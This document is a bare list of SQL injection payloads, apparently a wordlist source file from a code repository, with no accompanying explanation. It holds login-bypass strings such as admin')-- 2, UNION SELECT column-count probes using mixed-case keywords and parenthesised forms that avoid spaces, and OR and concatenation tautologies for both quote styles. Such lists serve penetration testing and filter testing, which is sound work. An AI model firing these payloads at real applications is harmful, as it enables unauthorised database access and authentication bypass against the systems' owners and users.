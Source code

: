 ```
")oR(2)LiKE(2)/*
")oR(2)LiKE(2)oR("
admin')-- 2
admin')#
admin')/*
admin")-- 2
admin")#
') UniON SElecT 1,2-- 2
') UniON SElecT 1,2,3-- 2
') UniON SElecT 1,2,3,4-- 2
') UniON SElecT 1,2,3,4,5-- 2
') UniON SElecT 1,2#
') UniON SElecT 1,2,3#
') UniON SElecT 1,2,3,4#
') UniON SElecT 1,2,3,4,5#
')UniON(SElecT(1),2)-- 2
')UniON(SElecT(1),2,3)-- 2
')UniON(SElecT(1),2,3,4)-- 2
')UniON(SElecT(1),2,3,4,5)-- 2
')UniON(SElecT(1),2)#
')UniON(SElecT(1),2,3)#
')UniON(SElecT(1),2,3,4)#
')UniON(SElecT(1),2,3,4,5)#
") UniON SElecT 1,2-- 2
") UniON SElecT 1,2,3-- 2
") UniON SElecT 1,2,3,4-- 2
") UniON SElecT 1,2,3,4,5-- 2
") UniON SElecT 1,2#
") UniON SElecT 1,2,3#
") UniON SElecT 1,2,3,4#
") UniON SElecT 1,2,3,4,5#
")UniON(SElecT(1),2)-- 2
")UniON(SElecT(1),2,3)-- 2
")UniON(SElecT(1),2,3,4)-- 2
")UniON(SElecT(1),2,3,4,5)-- 2
")UniON(SElecT(1),2)#
")UniON(SElecT(1),2,3)#
")UniON(SElecT(1),2,3,4)#
")UniON(SElecT(1),2,3,4,5)#
')||('2
')||2-- 2
')||'2'||('
')||2#
')||2/*
')||2||('
")||("2
")||2-- 2
")||"2"||("
")||2#
")||2/*
")||2||("
')||'2'=('2
')||'2'='2'||('
')||2=2-- 2
')||2=2#
')||2=2/*
')||2=2||('
")||"2"=("2
")||"2"="2"||("
")||2=2-- 2
")||2=2#
")||2=2/*
")||2=2||("
```